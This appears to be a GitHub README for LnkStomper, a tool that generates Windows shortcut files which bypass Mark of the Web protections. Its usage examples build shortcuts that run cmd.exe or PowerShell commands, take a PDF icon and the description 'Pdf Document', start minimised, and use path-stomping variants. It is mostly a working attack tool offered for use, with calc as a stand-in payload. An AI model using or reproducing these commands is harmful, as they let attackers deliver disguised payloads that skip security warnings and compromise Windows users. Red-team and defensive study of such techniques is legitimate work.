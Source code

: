 
## 🔥 `LnkStomper with MOTW BYPASS` 🔥

* Windows (.lnk) Shortcut file generator that bypass MOTW

## About
CLI tool that automates the process of generating Windows (.lnk) files

## Features 
- 🔥 `Mark Of The Web (MOTW) Bypass`


## Installation

```
git clone  https://github.com/0xNightOwl/LnkStomper
```

```
pip install -r requirements.txt
```

- Lnks created will automatically bypass MOTW 

## Usage Examples
```
python LnkStomper.py -h

python LnkStomper.py --example

python LnkStomper.py --lnk calc.lnk

python LnkStomper.py -t "C:\Windows\System32\cmd.exe" -a "/c start calc.exe" -o calc.lnk

python lnkstomper.py --target C:\Windows\System32\cmd.exe --arguments "/c powershell.exe -c calc" --icon pdf --output calc.lnk          

python LnkStomper.py -t "C:\Windows\System32\cmd.exe" -a "/c powershell.exe -c start calc" -o calc.lnk -i pdf -d "Pdf Document" -w min

python LnkStomper.py -t "C:\Windows\System32\cmd.exe" -a "/c powershell.exe -c start calc" -o calc.lnk  -w min -i "%SystemRoot%\System32\shell32.dll,267"

python LnkStomper.py -t "C:\Windows\System32\cmd.exe" -a "/c start calc.exe" -o calc.lnk -v dot

python LnkStomper.py -t "C:\Windows\System32\cmd.exe" -a "/c start calc.exe" -o calc.lnk -v pathsegent
```


## License
This is an open-source software licensed under the [MIT license](https://opensource.org/licenses/MIT)
